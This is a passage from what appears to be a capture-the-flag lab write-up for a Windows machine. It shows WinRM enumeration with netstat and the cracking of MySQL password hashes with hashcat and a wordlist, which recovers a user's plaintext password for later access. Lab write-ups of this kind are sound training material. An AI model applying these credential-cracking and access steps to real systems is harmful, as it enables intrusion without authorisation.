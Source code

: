     Logon hours allowed          All
    
    Local Group Memberships      *Remote Management Use*Users                
    Global Group memberships     *None                 
    The command completed successfully.
    

This group means that he can run commands over WinRM.

I can see that the host is listening on 5985 (WinRM), even though the firewall
must be preventing me from seeing it from my box:

    
    
    PS C:\users> netstat -ano
    
    Active Connections
    
      Proto  Local Address          Foreign Address        State           PID
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       816
      TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1840
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       452
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       992
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1708
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       592
      TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       608
      TCP    0.0.0.0:52629          0.0.0.0:0              LISTENING       2256
      TCP    10.10.10.167:80        10.10.14.4:48742      ESTABLISHED     4
      TCP    10.10.10.167:53175     10.10.14.4:443        ESTABLISHED     2736
      ...[snip]...
    

This means if I can find a password for hector, I can try to run commands as
that user.

### Crack MySQL Password

I had earlier started running the MySQL passwords through `hashcat`. I had a
`hashes` file:

    
    
    root@kali# cat hashes 
    hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
    manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA                                 
    root:0A4A5CAD344718DC418035A1F4D292BA603134D8
    

Then I started `hashcat`, and pretty quickly it broke hectors:

    
    
    root@kali# hashcat -m 300 hashes --user /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
    ...[snip]...
    